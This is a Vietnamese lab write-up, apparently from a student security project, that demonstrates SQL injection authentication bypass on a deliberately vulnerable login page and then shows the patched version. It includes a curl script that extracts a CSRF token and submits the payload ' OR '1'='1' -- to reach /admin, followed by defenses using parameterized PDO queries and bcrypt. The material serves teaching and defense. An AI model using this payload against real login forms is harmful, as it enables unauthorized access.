




# Kịch bản 5. SQL Injection trong đăng nhập

Tài liệu này trình bày riêng kịch bản, quy trình kiểm chứng, kết quả và biện pháp phòng thủ. Quy ước môi trường chung nằm trong [hướng dẫn kịch bản Web](../README.md).

## Lý thuyết

Cấu hình có lỗi ghép trực tiếp tên đăng nhập và mật khẩu vào câu lệnh SQL.

## Kỹ thuật và công cụ sử dụng

Đưa dữ liệu thử vào biểu mẫu đăng nhập và quan sát khác biệt giữa truy vấn ghép chuỗi với xử lý đã vá.

**Dữ liệu thử:** Payload SQLi trong tài khoản lab; không truy vấn dữ liệu ngoài đồ án.

**Công cụ và giao diện:** Biểu mẫu đăng nhập, trình duyệt hoặc `curl`; MySQL lab.

**Mã nguồn liên quan:** [`app/src/Controllers/AuthController.php`](../../../../app/src/Controllers/AuthController.php), [`app/src/Core/Database.php`](../../../../app/src/Core/Database.php).

## Môi trường và dữ liệu thử

Dùng tài khoản `bien`; nhập payload vào ô tên đăng nhập, mật khẩu bất kỳ. Không cần biết mật khẩu đúng.

## Cách thực hiện

```bash
html="$(curl -sS -c "$JAR" "$BASE/login")"
token="$(printf '%s' "$html" | sed -n 's/.*name="_csrf" value="\([^"]*\)".*/\1/p' | head -1)"

curl -sS -i -b "$JAR" -c "$JAR" \
  --data-urlencode "username=' OR '1'='1' -- " \
  --data-urlencode "password=khong-quan-trong" \
  --data-urlencode "_csrf=$token" \
  "$BASE/login"
```

Chuỗi `username` kết thúc bằng `-- ` để phần còn lại của điều kiện bị chú thích. Dấu cách sau `--` là bắt buộc trong MySQL.

## Kết quả trên cấu hình có lỗi

```text
HTTP/1.1 302 Found
Location: /admin
```

Ứng dụng đăng nhập bằng tài khoản quản trị đầu tiên trong bảng `users`.

## Biện pháp phòng thủ

Dùng PDO với truy vấn tham số hóa, không ghép chuỗi. Kiểm tra mật khẩu bằng `password_verify` với bcrypt. Không hiển thị lỗi SQL cho người dùng.

## Kết quả trên cấu hình đã vá

Gửi lại cùng đầu vào:

```text
HTTP/1.1 200 OK
Tên đăng nhập hoặc mật khẩu không đúng.
```

Không có chuyển hướng tới `/admin`, không có thông báo SQL. Truy vấn tham số hóa coi toàn bộ chuỗi là giá trị của cột `username`, không phải mệnh đề SQL.


## Ảnh minh chứng

**SQL Injection: nhập payload tại ô đăng nhập.**



**SQL Injection: vào được trang quản trị trên bản có lỗi.**



**SQL Injection: cùng payload trên bản đã vá.**



**SQL Injection: đăng nhập bị từ chối.**


